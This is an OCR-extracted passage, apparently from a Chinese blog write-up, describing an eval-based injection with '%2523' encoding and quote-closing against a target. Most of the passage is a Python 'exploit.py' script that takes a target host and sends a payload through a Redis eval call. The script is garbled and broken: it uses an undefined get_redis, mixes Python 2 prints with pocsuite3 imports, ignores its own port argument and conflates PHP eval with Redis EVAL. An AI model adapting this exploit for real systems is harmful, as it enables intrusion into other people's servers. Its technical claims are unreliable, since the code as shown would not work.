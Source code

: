 > 
> 看来还是不行啊。。。。。那怎么办呢？
> 
>   
> 
> 答案当然是有的！！！
> 
> 继续翻阅 PHP 手册发现有个 eval() 函数可以直接运行用户提供的字符串内容。
> 
>   
> 
> 既然如此那就试一试呗！
> 
>   
> 
> 构造好要执行的语句后，在加上前面提到的\`%2523\`编码符号就行了~
> 
>   
> 
> 最后记得加一个单引号闭合一下语句。
> 
> 完整版脚本如下：
> 
>   
> 
> \`\`\`
> 
> from pocsuite3.lib.utils import get\_cmd\_output,get\_md5
> 
> import sys
> 
> if len(sys.argv)==3:
> 
>     host=sys.argv\[1\]
> 
>     port=int(sys.argv\[2\])
> 
> else:
> 
>     raise ValueError('Usage: python exploit.py <target> <port>')
> 
> payload="\\"".join(\['','/\*','\*/','echo','md5(getenv(\\'PATH\\'))','\*/'\])
> 
> print payload+"''"
> 
> r=get\_redis(host,'6379')
> 
> result=r.eval(payload)
> 
> print result\['result'\]
> 
> \`\`\`
> 
>   
> 
> !\[\](../Images/c5344319117a7fd4ea49dc82eab0f63b.png)
> 
>   
> 
>   
> 
>   
> 
> 可以看到我们的目标路径已经被打印出来了。